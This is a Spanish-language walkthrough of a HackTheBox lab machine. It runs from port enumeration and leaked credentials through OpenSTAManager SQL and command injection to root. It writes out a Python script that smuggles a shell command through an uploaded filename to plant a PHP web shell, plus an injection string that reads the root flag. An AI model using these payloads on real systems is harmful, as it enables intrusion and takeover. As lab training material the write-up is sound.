

Esta semana nos enfrentamos a una máquina fácil a medio de HTB, muy divertida e interesante cuanto menos, habrá que **buscar, buscar y buscar** para poco a poco entender y poder seguir las pistas que nos llevan a las flags.
# Enumeración
Como siempre comenzamos un ping a la máquina, detectando un `ttl=63` lo que indica que nos enfrentamos a una **máquina Linux**. Posteriormente realizamos un escaneo intensivo de los puertos abiertos en la máquina y obtenemos una lista enorme de estos:
```java
# Nmap 7.993 scan initiated Fri Nov 13 13:07:18 2026 as: nmap -sCV -p22,80,110,111,143,993,995,2049,32993,35631,38151,49717,56853 -oN targeted 10.129.141.126
Nmap scan report for enigma.htb (10.129.141.126)
Host is up (0.075s latency).

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp    open  http     nginx 1.24.0 (Ubuntu)
|_http-title: Enigma Corp \xE2\x80\x94 Managed IT Solutions
|_http-server-header: nginx/1.24.0 (Ubuntu)
110/tcp   open  pop3     Dovecot pop3d
|_pop3-capabilities: PIPELINING TOP SASL AUTH-RESP-CODE STLS RESP-CODES CAPA UIDL
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34186/udp   mountd
|   100005  1,2,3      39751/tcp6  mountd
|   100005  1,2,3      55977/udp6  mountd
|   100005  1,2,3      56853/tcp   mountd
|   100021  1,3,4      35631/tcp   nlockmgr
|   100021  1,3,4      36826/udp   nlockmgr
|   100021  1,3,4      43834/udp6  nlockmgr
|   100021  1,3,4      46215/tcp6  nlockmgr
|   100024  1          32993/tcp   status
|   100024  1          34348/udp6  status
|   100024  1          49506/udp   status
|   100024  1          53145/tcp6  status
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/tcp6  nfs_acl
143/tcp   open  imap     Dovecot imapd (Ubuntu)
|_imap-capabilities: have IDLE LOGINDISABLEDA0001 LOGIN-REFERRALS OK ID SASL-IR post-login IMAP4rev1 ENABLE more LITERAL+ listed capabilities Pre-login STARTTLS
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: have IDLE LOGIN-REFERRALS OK ID SASL-IR post-login IMAP4rev1 ENABLE more LITERAL+ listed capabilities Pre-login AUTH=PLAINA0001
995/tcp   open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: PIPELINING TOP SASL(PLAIN) AUTH-RESP-CODE USER RESP-CODES CAPA UIDL
| ssl-cert: Subject: commonName=enigma
| Subject Alternative Name: DNS:enigma
| Not valid before: 2026-02-18T20:33:33
|_Not valid after:  2036-02-16T20:33:33
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  nfs_acl  3 (RPC #100227)
32993/tcp open  status   1 (RPC #100024)
35631/tcp open  nlockmgr 1-4 (RPC #100021)
38151/tcp open  mountd   1-3 (RPC #100005)
49717/tcp open  mountd   1-3 (RPC #100005)
56853/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Servicios de la máquina
Aparte de tener un servidor web HTTP por el puerto 80 así como SSH en el puerto 22, podemos ver otros servicios:
- **IMAP**(143) -> email
	- `LOGINDISABLEDA0001` nos indica que los intentos de login en texto plano no están autorizados, por ello supongo que debemos conectarnos usando **SSL**.
- **rpcbind**(111) 
- **nfs_acl**(2029)
- **POP3** -> email
Usando **WhatWeb** obtenemos lo siguiente:

```python
http://enigma.htb/ [200 OK] Country[RESERVED][ZZ], Email[support@enigma.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.141.126], Script, Title[Enigma Corp — Managed IT Solutions], nginx[1.24.0]
```
## Directorios y subdominios
No encontramos absolutamente nada, ningún subdominio o directorio en la web, por tanto esto puede indicar que la explotación tiene que ver con los servicios **IMAP** o **rpcbind**.

# Análisis de servicios
## IMAP y POP3
### Imap
Bueno, ya de alguna otra máquina me suena **IMAP** pero mejor vamos a intentar entender qué es y cómo funciona para poder explotarlo.
> **IMAP**: "*Internet Message Access Protocol*" es un lenguaje usado entre los programas de email y el servidor donde se alojan los emails. A diferencia de POP3, deja en el servidor la copia maestra del email y solo descarga una copia, siendo así accesible desde otro dispositivo.

He investigado y se pueden ver los certificados de conectividad. Si los revisamos con el siguiente comando: 
```shell
openssl s_client -connect 10.129.141.217:995 -showcerts
```
### POP3
(y ya)
## Banners y certificados SSL
Obtenemos que `CN=enigma`, cosa que no nos dice mucho. Lo mismo con POP3 e IMAP. Si intentamos ver los banners no conseguimos obtener ninguna versión por lo que dudo que podamos ver nada. 
## nfs_acl
Este es otro servicio expuesto que nos puede llegar a interesar. Busquemos en Google de qué se trata:
> NFS es el protocolo que permite compartir carpetas/archivos pero **NFS ACL** es un protocolo auxiliar que se utiliza junto a NFS.

Un método de enumeración que se puede realizar es listar los exports del sistema NFS: `showmount -e 10.129.141.217` lista los exports, o sea las carpetas compartidas y con qué permisos básicos y obtenemos lo siguiente:
``` shell
Export list for 10.129.141.217:
/srv/nfs/onboarding *
```

Nos traemos a local y encontramos, dentro de un PDF, unas credenciales válidas para un usuario, así como un portal de correos válido.

```
URL: http://mail001.enigma.htb 

Username: kevin 

Password: Enigma2024!
```

Añadimos la URL al `/etc/hosts` y accedemos con las credenciales de Kevin. Ahora podemos listar la versión del software de mail que utiliza esta empresa. Se trata del software `Roundcube Webmail 1.6.16` vulnerable a una inyección SQL sin autenticación: `CVE-2026-48842`

No he podido encontrar mucho sobre esto. Ya que esta es la posible contraseña por defecto, voy a probar a iniciar sesión como Sarah (la chica que envió un correo a Kevin). **Obtenemos el INBOX de Sarah**.
# OpenSTAManager
Podemos ver en un correo de su inbox lo siguiente:
```
Hi Sarah,  
  
Apologies for the delay. I have provisioned your access. Please find the details below:  
  
URL: [http://support_001.enigma.htb](http://support_001.enigma.htb/)  
Username: admin  
Password: Ne3s4rtars78s  
  
Note: I will create a dedicated account for you shortly, for now you can use the admin account to get started.  
  
Regards,  
IT Support  
Enigma Corp
```
Vamos a intentar acceder a ese portal de administración. Se trata del programa **`OpenSTAManager v2.9.8`** que es vulnerable a `CVE-2025-69216`!!
# Vulnerabilidades de OpenSTAManager
## CVE-2025-69216 
Se trata de una inyección SQL autenticada en el parámetro `id_anagrafica`, en concreto en el recurso de `pdfgen.php`. Esto se debe a que el valor que se concatena en la URL no está correctamente sanitizado:
```php
$module_query = str_replace('1=1', '1=1 AND `co_scadenziario`.`idanagrafica`="'.get('id_anagrafica').'"', $module_query);
```
Esto nos debería permitir inyectar código SQL y con suerte obtener algún error.
## CVE-2025-69212
Se trata de una inyección de comandos de sistema operativo debido a una mala sanitización de un parámetro. En concreto se trata de este campo:
```php
exec('openssl smime -verify -noverify -in "'.$file.'" -inform DER -out "'.$output_file.'"');
```
El campo `$file` es el archivo que el atacante envía, el problema es que no existe sanitización del nombre del archivo. En este caso admite archivos de extensión `.p7m`. Si subimos el archivo `factura.p7m` se quedaría de la siguiente forma:
```php
openssl smime -verify -noverify -in "factura.p7m" -inform DER -out "/tmp/out.xml"
```
Si probamos a subir un archivo con un nombre posiblemente malicioso y sin escapar las comillas no sucede nada, ese es el caso de:
```php
openssl smime -verify -noverify -in "factura.p7m;id.p7m" -inform DER -out "/tmp/out.xml"
                                    └──────────┬──────────┘
                                     todo entre comillas = texto literal
```
### Paso 1 -> Cerrar las comillas
Si intentamos cerrar las comillas:
```shell
openssl smime -verify -noverify -in "factura.p7m"" -inform DER -out "/tmp/out.xml"
                                    ↑         ↑↑
                                 abre       cierra  + comilla extra
```
### Paso 2 -> Inyectar comandos:
```shell
openssl smime -verify -noverify -in "factura.p7m";id;echo "" -inform DER -out "/tmp/out.xml"
                                    └───────┬───────┘└┬┘└────┬─────┘
                                          cmd 1      cmd 2   cmd 3 (basura)
```
#### Web shell
Por lo tanto se ejecutarían los comandos `id` y `echo`. Creemos entonces una web shell mediante la creación de un archivo .php:
```shell
openssl smime -verify -noverify -in "invoice.p7m";cd files && echo '<?php system($_GET["c"]); ?>' > SHELL.php;echo ".p7m" -inform DER -out "/tmp/out.xml"
```
Por tanto tenemos que crear un archivo y subirlo al siguiente campo



Debemos generar un zip que en su interior contenga un archivo:
```python
import zipfile

# El nombre de archivo es el payload; el contenido da igual (openssl fallará)
payload_name = 'invoice.p7m";cd files && echo \'<?php system($_GET["c"]); ?>\' > SHELL.php;echo ".p7m'

with zipfile.ZipFile('exploit.zip', 'w') as zf:
    zf.writestr(payload_name, b"DUMMY")
```
Apuntes sobre el script:
- Escapamos las comillas simples
Y ahora nos enviamos una reverse shell desde nuestra web shell.

# Pivoting -> User Flag
Tenemos que conseguir acceso a usuario. En este punto tocará buscar archivos de configuración con credenciales en texto plano o algo similar. Vamos a revisar los archivos de configuración. 
## Archivos de configuración
Voy a revisar el archivo `mysql.json` y voy a filtrar por `username`:
```json
"username": {
        "referenced_table": "zz_users",
        "referenced_table": "zz_users",
        "referenced_table": "zz_users",
        "referenced_table": "zz_users",
```
Por lo que es posible que las credenciales se encuentren en la tabla `zz_users`. Seguimos explorando los diferentes archivos y filtrando por palabras clave como `user` o `password` y en el archivo `config.inc.php` encontramos las siguientes credenciales:
```
$db_username = 'brollin';
$db_password = 'Fri3nds@9099';
```
Lo que parecen ser credenciales correctas, por lo que accedo a la consola interactiva de MySQL. Tiene varias bases de datos, la que nos interesa es la de OpenSTAManager y ahí describimos y seleccionamos los valores de username y password de la tabla zz_users:
```sql
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$rTJVUNyGGKPlhw2cFdf5AeDHVMhnIChddcHx2XxVLMQS2KsuSz4Pu |
| haris    | $2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC |
+----------+--------------------------------------------------------------+
```
Parecen estar hasheadas. Utilizaré Hashcat y ya que en el sistema existe en `/home` el usuario `haris` intentaré deshashear esa contraseña.
## Deshasheando contraseñas  - USER FLAG
Detectaremos el hash primero de todo:
```bash
hashid -m '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC'
------------------------------------------------------------------------
Analyzing '$2y$10$WHf1T79sxjsZongUKT2jGeexTkvihBQyCZeoYXmObiNphrsZDr6eC'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```
Últimamente, con Hashcat:
```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```
Obteniendo la contraseña **`bestfriends`**:
```bash
haris@enigma:~$ whoami
haris
```

Voy a generarme una clave SSH para poder conectarme y poder tunelar la conexión a mi equipo.

# Escalada de privilegios
Voy a realizar un escaneo con **LinPEAS** y lo voy a ir analizando poco a poco. Primero de todo, LinPEAS muestra más puertos abiertos que los del escaneo inicial de Nmap, entre ellos:
- 1337
- 902
- 25
Vamos a enviarnos mediante el siguiente comando:
```bash
❯ ssh -i haris_key -N -L 4444:localhost:1337 haris@10.129.142.165
```
El servicio del puerto 1337 al puerto 4444 de nuestro localhost. Podemos ver que está corriendo **OliveTin 3000.10.0** que es vulnerable a **CVE-2026-27626**.
## CVE-2026-27626
Esta vulnerabilidad permite la inyección de comandos dentro del plugin **Database Backup** por una mala sanitización de la entrada, llegando a ejecutar comandos. Si introducimos una comilla obtenemos una web con un error. Si escapamos la salida e intentamos ver el contenido de `/root/root.txt` obtenemos:

```bash
x'; cat /root/root.txt; #

ysqldump: [Warning] Using a password on the command line interface can be insecure.
Usage: mysqldump [OPTIONS] database [tables]
OR     mysqldump [OPTIONS] --databases [OPTIONS] DB1 [DB2 DB3...]
OR     mysqldump [OPTIONS] --all-databases [OPTIONS]
For more options, use mysqldump --help
542b99c9019370ca289d3e1037578c45
```
